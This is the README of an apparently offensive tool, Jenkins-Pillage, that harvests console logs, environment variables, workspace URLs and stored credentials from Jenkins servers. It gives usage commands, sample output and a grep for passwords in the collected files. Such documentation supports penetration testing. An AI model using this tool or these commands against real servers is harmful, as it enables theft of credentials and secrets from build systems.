 # Jenkins-Pillage
This tool will attempt to pull console output, environment variables, and workspaces associated with Jenkins builds. It works both against unauthenticated and authenticated (with creds) servers.

Typically lots of sensitive information may be retrieveable from these locations and this tool aims to automate the pillaging of that info. Credentials, API endpoints, private keys, and much more have been gathered using Jenkins-Pillage.

## Requirements
 - Python3.6 or greater

 - `pip3 install requests`
 - `pip3 install bs4`

 **OR**
 - `pip3 install pipenv`
 - `pipenv install`

## Help Info
```
$ ./jenkins-pillage.py --help
usage: jenkins-pillage.py [-h] [-b BUILD_URL] [-u USERNAME] [-p PASSWORD]
                          [-l LIST_URL] [-a AUTO] [-f]

Pillage sensitive information from Jenkins servers

optional arguments:
  -h, --help            show this help message and exit
  -b BUILD_URL, --buildurl BUILD_URL
                        The build URL to pillage
  -u USERNAME, --user USERNAME
                        The Basic Auth username for the service
  -p PASSWORD, --password PASSWORD
                        The Basic Auth password for the service
  -l LIST_URL, --list LIST_URL
                        Lists all found build URLs to use with -b
  -a AUTO, --auto AUTO  Automatically perform -l and then -b on a root URL
  -f, --force           Force the URLs to use the supplied socket (in case the
                        server returns localhost)

$ pipenv run start -h
```

## Usage
Docker mode:
```
$ cd /path/to/Jenkins-Pillage
$ docker build -t jenkins-pillage .
$ docker run --rm -it jenkins-pillage -h
    usage: jenkins-pillage.py [-h] [-b BUILD_URL] [-u USERNAME] [-p PASSWORD]
                            [-l LIST_URL] [-a AUTO] [-f]

    Pillage sensitive information from Jenkins servers

    optional arguments:
    -h, --help            show this help message and exit
    -b BUILD_URL, --buildurl BUILD_URL
                            The build URL to pillage
    -u USERNAME, --user USERNAME
                            The Basic Auth username for the service
    -p PASSWORD, --password PASSWORD
                            The Basic Auth password for the service
    -l LIST_URL, --list LIST_URL
                            Lists all found build URLs to use with -b
    -a AUTO, --auto AUTO  Automatically perform -l and then -b on a root URL
    -f, --force           Force the URLs to use the supplied socket (in case the
                            server returns localhost)

# Pass any arguments to the Docker container
$ docker run --rm -it jenkins-pillage -a https://jenkins.example.com
```

Easy mode:
```
$ pip
$ ./jenkins-pillage.py -a https://jenkins.example.com
Getting a list of all build URLs
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
Attempting: https://jenkins.example.com/job/Application1/6
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
Checking to see if credentials can be decrypted and enumerated
-- FOUND CREDENTIALS IN CREDENTIAL STORE
...
```

List all build URLs recursed from a top level URL:
```
$ ./jenkins-pillage.py -l https://jenkins.example.com
https://jenkins.example.com/job/Application0/4
https://jenkins.example.com/job/Application1/6
...
```

Pull the console output, workspace zip url, and environment variables of a build recursed from above:
```
$ ./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
Same but behind an SSH proxy and needs creds to work:
```
$ export all_proxy=socks4a://localhost:1080
$ ./jenkins-pillage.py -b https://jenkins.example.com/job/Application0/4 -u admin -p Password1
Attempting: https://jenkins.example.com/job/Application0/4
-- FOUND CONSOLE OUTPUT
-- FOUND ENV VARS
-- FOUND WORKSPACE ZIP URL
```
The files are pulled down to the current directory. The URL for the zip download is placed in a file as opposed to downloading the zip because many of the zips I've seen can easily fill up your hard drive. Once the files are downloaded, grep to your hearts delight:
```
$egrep -i 'password|Authorization.*Basic|sqlplus|<other_creds_or_commands>' *
```

## Caveat
Jenkins has a _lot_ of available plugins that could also house sensitive data. Use this tool as a first step in pillaging Jenkins boxes. This tool is not a substitute for manual review and is considered in beta so YMMV. Pull requests for additional features are welcome.
